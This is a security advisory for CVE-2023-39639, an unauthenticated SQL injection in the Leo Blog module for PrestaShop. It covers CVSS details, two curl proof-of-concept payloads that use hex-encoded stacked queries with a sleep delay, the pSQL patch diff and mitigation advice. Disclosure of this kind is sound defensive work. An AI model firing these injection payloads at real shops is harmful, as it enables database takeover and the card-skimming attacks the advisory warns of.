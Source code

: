 ```yaml
---
layout: post
title: "[CVE-2023-39639] Improper neutralization of SQL parameter in LeoTheme - Leo Blog module for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,leoblog"
severity: "critical (9.8)"
---
```


In the module "Leo Blog" (leoblog) up to versions 3.1.2 from LeoTheme for PrestaShop, a guest can perform SQL injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-39639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39639)
* **Published at**: 2023-08-31
* **Platform**: PrestaShop
* **Product**: leoblog
* **Impacted release**: <= 3.1.2 (3.1.3 fixed the vulnerability)
* **Product author**: LeoTheme
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

Methods `LeoBlogBlog::getListBlogs`, `LeoBlogBlog::countBlogs`, `LeoBlogBlog::findByRewrite` and `Leoblogcat::findByRewrite` has sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

**WARNING** : This exploit is actively used to deploy a webskimmer to massively steal credit cards.

This exploit uses a PrestaShop front controller and most attackers can conceal the module controller's path during the exploit, so you will never know within your conventional frontend logs that it exploits this vulnerability. **You will only see "POST /" inside your conventional frontend logs.** Activating the AuditEngine of mod_security (or similar) is the only way to get data to confirm this exploit.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admins's ajax scripts
* Rewrite SMTP settings to hijack emails


## Proof of concept

POC 1 (SEEN IN 3.0.0) : 

```bash
curl -v "https://preprod.XX/module/leoblog/list?author=42@test.fr%22;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--"
```

POC 2 (SEEN IN 3.0.6-) : only work if configuration `url_use_id` is set to 0

```bash
curl -v "https://preprod.XX/module/leoblog/blog?id=1';select(0x73656C65637420736C656570283432293B)INTO@a;prepare\`b\`from@a;execute\`b\`;--"
```

## Patch from 3.X

```diff
--- 3.0.0/modules/leoblog/classes/blog.php
+++ 3.1.3/modules/leoblog/classes/blog.php
    public static function findByRewrite($parrams)
    {
        $id_lang = (int)Context::getContext()->language->id;
        $id_shop = (int)Context::getContext()->shop->id;
        $id = 0;
        if(isset($parrams['link_rewrite']) && $parrams['link_rewrite'])
        {
            $sql = 'SELECT bl.id_leoblog_blog FROM '._DB_PREFIX_.'leoblog_blog_lang bl';
            $sql .= ' INNER JOIN '._DB_PREFIX_.'leoblog_blog_shop bs on bl.id_leoblog_blog=bs.id_leoblog_blog AND id_shop='.$id_shop;
-           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".$parrams['link_rewrite']."'";
+           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".pSQL($parrams['link_rewrite'])."'";
...
    public static function getListBlogs($id_category, $id_lang, $page_number, $nb_products, $order_by, $order_way, $condition = array(), $is_active = false, $id_shop = null)
    {
...
                    else
					{
-						$where .= ' AND author_name LIKE "%'.$condition['author_name'].'%"
+						$where .= ' AND author_name LIKE "%'.pSQL($condition['author_name']).'%"
...
    public static function countBlogs($id_category, $id_lang, $condition = array(), $is_active = false, $id_shop = null)
    {
...
                    else
					{
-						$where .= ' AND author_name LIKE "%'.$condition['author_name'].'%"';
+						$where .= ' AND author_name LIKE "%'.pSQL($condition['author_name']).'%"';

```

```diff
--- 3.0.0/modules/leoblog/classes/leoblogcat.php
+++ 3.1.3/modules/leoblog/classes/leoblogcat.php
    public static function findByRewrite($parrams)
    {
        $id_lang = (int)Context::getContext()->language->id;
        $id_shop = (int)Context::getContext()->shop->id;
        $id = 0;
        if(isset($parrams['link_rewrite']) && $parrams['link_rewrite'])
        {
            $sql = 'SELECT cl.id_leoblogcat FROM '._DB_PREFIX_.'leoblogcat_lang cl';
            $sql .= ' INNER JOIN '._DB_PREFIX_.'leoblogcat_shop cs on cl.id_leoblogcat=cs.id_leoblogcat AND id_shop='.$id_shop;
            $sql .= ' INNER JOIN '._DB_PREFIX_.'leoblogcat      cc on cl.id_leoblogcat=cc.id_leoblogcat AND cl.id_leoblogcat != cc.id_parent';  # FIX : PARENT IS NOT THIS CATEGORY
-           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".$parrams['link_rewrite']."'";
+           $sql .= ' WHERE id_lang = ' . $id_lang ." AND link_rewrite = '".pSQL($parrams['link_rewrite'])."'";

```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **leoblog**.
* Upgrade PrestaShop to the latest version to disable multiquery executions (separated by “;”) - be warned that this functionality **WILL NOT** protect your SHOP against injection SQL which uses the UNION clause to steal data.
* Change the default database prefix `ps_` with a new longer, arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skills because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-05-13 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-05-13 | Contact PrestaShop Addons security Team to confirm versions scope by author |
| 2023-05-16 | PrestaShop Addons security Team confirm versions scope |
| 2023-05-19 | Request a CVE ID |
| 2023-08-29 | Received CVE ID |
| 2023-08-29 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/fr/2_community-developer?contributor=190902&id_category=3)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-39639)
